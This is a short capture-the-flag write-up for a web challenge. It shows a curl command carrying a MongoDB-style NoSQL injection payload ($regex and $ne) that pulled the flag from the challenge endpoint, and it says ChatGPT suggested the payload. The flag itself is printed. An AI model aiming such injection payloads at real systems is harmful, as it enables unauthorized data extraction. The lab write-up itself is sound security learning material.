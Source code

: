 # _dot-private-key_

Category | Value
-- | --
Web | 100

***

I used the provided keys to see what the endpoint returned and immediately suspected some kind of injection. At first I wasted time trying to run **sqlmap** (terrible call, lost a lot of time).

Then I asked ChatGPT for payload ideas. Most were useless, but one stood out:

```bash
curl -s 'http://ctf.ac.upt.ro:9768/key' \
  -H 'Content-Type: application/json' \
  -d '{"key":{"$regex":"ctf\\{.*\\}","$options":"i"},"type":{"$ne":null}}'
```

That payload is actually a **NoSQL injection** (it uses a Mongo-style `$regex` query). GPT mistakenly called it a SQL injection classic helpful dummy-AI moment, but the payload itself was the helpful part and pointed me in the right direction.

## Proog-of-flag
```
ctf{284dc217ce36b9133c561207af3dbf6b8656323d6375f3f5c8c955be0a2aab66}
```

